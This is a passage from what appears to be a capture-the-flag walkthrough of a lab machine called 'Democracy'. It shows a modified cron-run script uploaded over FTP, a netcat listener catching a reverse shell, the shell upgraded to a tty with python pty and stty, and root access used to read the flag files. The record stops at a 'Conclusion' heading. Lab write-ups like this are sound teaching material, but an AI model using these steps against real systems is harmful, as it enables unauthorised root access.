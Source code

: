 ```bash
local: votes remote: votes
229 Entering Extended Passive Mode (|||59982|)
150 Opening ASCII mode data connection for votes
100% |****************************************************************************************************************|   270        2.57 MiB/s    --:-- ETA
226 Transfer complete
270 bytes sent in 00:00 (240.13 KiB/s)
```

Now that we have uploaded the modified script, let's start a reverse connection and see if the script is indeed executed after one minute.
```bash
┌──(pentester㉿kali)-[~/Democracy/Misc Files]
└─$nc -lvnp 4444          
listening on [any] 4444 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.19] 35252
```

We can see that we obtained a reverse connection from the target. Now let's upgrade this shell to a tty shell.
```bash
┌──(pentester㉿kali)-[~/Democracy/Misc Files]
└─$nc -lvnp 4444          
listening on [any] 4444 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.19] 35252
whereis python3
python3: /usr/bin/python3.9-config /usr/bin/python3 ...SNIP...

python3 -c 'import pty; pty.spawn("/bin/bash")' 
root@democracy:~# ^Z
zsh: suspended  nc -lvnp 4444

┌──(pentester㉿kali)-[~/Democracy/Misc Files]
└─$stty raw -echo;fg
[1]  + continued  nc -lvnp 4444
                               export TERM=xterm
root@democracy:~# 
```

After obtaining the tty shell we can see that we are logged in as root. We can confirm this by using the **whoami** command on the system as seen below. We can now use this access to read both the user and the root flag.
```bash
root@democracy:~# whoami
root
root@democracy:~# ls
root.txt
root@democracy:~# ls /home/trump/
user.txt
root@democracy:~# 
```

## Conclusion
